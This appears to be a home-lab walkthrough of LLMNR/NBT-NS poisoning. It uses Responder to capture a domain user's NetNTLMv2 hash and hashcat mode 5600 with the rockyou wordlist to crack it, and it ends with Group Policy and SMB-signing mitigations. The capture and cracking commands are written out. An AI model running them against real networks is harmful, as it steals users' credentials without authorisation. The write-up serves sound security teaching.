




# LLMNR/NBT-NS Poisoning

LLMNR (Link Local Multicast Name Resolution) is used to idenitfy hosts when DNS fails to do so. The key flaw we will abuse here is that services **utilize a user's username and NTLMv2 hash when responded to**. LLMNR is the successor to NBT-NS (NetBIOS Name Service), which translates computer names into IP addresses. The poisoning attack is successful because NBT-NS does not verify who answers the broadcast request. 

We will intercept NTLM credentials from network traffic and attempt to crack the hash using **hashcat**.

## VMs involved in the Attack
In our scenario, we will have **three** VMs running at the same time:
* Kali Linux (later referred to as Attacker VM)
* Windows Domain Controller
* Windows 11 user machine (Phantom)

## Attack Setup
The two tools used in this scenario are [Responder](https://github.com/lgandx/Responder) and [hashcat](https://www.kali.org/tools/hashcat/). Install them on our attacker VM and continue to launch the attack.

**Responder** acts as a rogue authentication server and responds to client attempts to connect to a non-existent hostname. It answers client broadcast name resolution requests, pointing to the *attacker IP* and captures the client's credentials. 
**Hashcat** will then crack the captured password hash value, presenting the remote user's password in plaintext.

## Launching the Attack
The attack has three main steps:
1. On the victim VM (Phantom), log in as a low level domain user (Domain controller must be booted for this user to access the domain)
2. Launch Responder on the attacker VM, specifying the network interface
3. As this user, try to access a network share hosted by the attacker IP using the Windows File Explorer address bar 
4. Once the victim's NTLM hash has been intercepted, crack it with hashcat

I logged in as *Shaggy (srogers)* on the Phantom VM. 

On the attacker VM, I ran *Responder* using the command `sudo responder -I eth2 -v` which is a basic LLMNR/NBT-NS poisoning technique. A breakdown of the flags is below:
* **-I**: Interface that Responder will use to monitor and send poisoned responses
* **-v**: Running Responder in verbose mode

When successfully started, you should see the message **Listening for events...**.



As *Shaggy (srogers)*, open *Windows File Explorer* and enter **\\\\[ATTACKER VM IP]** in the address bar, as if we were trying to access a network share on that machine. This will start the attack.

You will get a *Network Error* in response, as the attacker's network share does not exist. You can ignore this.



In the attacker VM's terminal window, see can the user's NTLM hash in the *responder* output: 



## Cracking the Captured NTLM Hash
Before attempting to crack Shaggy's NTLM hash, we need to:
1. *Save the hash to a file*, such as **hash.txt**.
2. Shut down the Domain Controller and Windows 11 user machine (Phantom VM)
3. Add Shaggy's password to the wordlist `/usr/share/wordlists/rockyou.txt` to simulate cracking a weak or often reused password

Hashcat can crack hashes calculated with many different algorithms listed [here](https://hashcat.net/hashcat/). When running hashcat, we need to specfiy the **mode** (algorithm) to use. To find the exact mode needed to crack NTLM hashes, we can run the command `hashcat -hh | grep NTLM`, which lists all possible modes and searches for the phrase *NTLM*.

```text                                                                            hashcat -hh | grep NTLM
   5500 | NetNTLMv1 / NetNTLMv1+ESS
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)
   5600 | NetNTLMv2                 
  27100 | NetNTLMv2 (NT)  
   1000 | NTLM          
```

The full command we need to use to crack **Shaggy's NTLMv2 hash** is: `hashcat -m 5600 srogersHASH.txt /usr/share/wordlists/rockyou.txt`. Since we added Shaggy's password to this wordlist, we will eventually crack the password.

When complete, hashcat should provide output with the **Status: Cracked** and show Shaggy's hash and password similar to: `SROGERS::[DOMAIN]:[HASH]:[PASSWORD]`



## Mitigating LLMNR/NBT-NS Poisoning Attacks
**1. Disable LLMNR**

This can be accomplished with a **Group Policy**:
Using **gpedit.msc** we can find the exact policy nested under *Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client*.

Enable the policy **Turn OFF Multicast Name Resolution**.

**2. Disable NBT-NS**

This can be accomplished with the **Network Connections** settings. Find the **Disable NetBIOS over TCP/IP** setting nested under *Network Adapter properties > TCP/IPv4 Properties > Advanced tab > WINS tab*.

**3. Enable SMB signing on all devices to prevent NLTM authentication messages from being intercepted**

This can be accomplished with a **Group Policy**:
Using **gpedit.msc** we can find the exact option nested under *Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options*.

For the server, enable:
* Microsoft network server: Digitally sign communications (always)
* Microsoft network server: Digitally sign communications (if client agrees)

For the client, enable:
* Microsoft network client: Digitally sign communications (always)
* Microsoft network client: Digitally sign communications (if server agrees)

### Sources
* https://www.cynet.com/security-foundations/attack-techniques/llmnr-nbt-ns-poisoning-and-credential-access-using-responder/
